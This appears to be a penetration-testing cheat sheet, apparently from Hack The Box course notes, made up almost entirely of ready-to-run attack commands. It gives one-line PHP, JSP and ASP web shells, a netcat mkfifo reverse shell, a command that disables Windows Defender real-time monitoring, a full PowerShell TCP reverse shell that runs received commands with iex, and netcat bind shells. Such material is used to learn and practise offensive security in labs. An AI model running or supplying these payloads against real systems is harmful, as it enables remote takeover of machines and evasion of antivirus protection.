 ## Web Shells

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

## Reverse Shells

### Netcat
```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

### CMD
Disabling AV:
```powershell-session
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

Target:
```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<ip address>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

attacker:
```shell-session
$ sudo nc -lvnp 443
```

## Bind Shells

### Simple Netcat TCP (Only for Sending Messages)
Target:
```shell-session
$ nc -lvnp <port>
```
Attacker:
```shell-session
nc -nv <ip address> <port>
```

### Basic Netcat Bind Shell
Target:
```shell-session
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <ip address> <port> > /tmp/f
```
Attacker:
```shell-session
$ nc -nv <ip address> <port>
```

```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.216',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```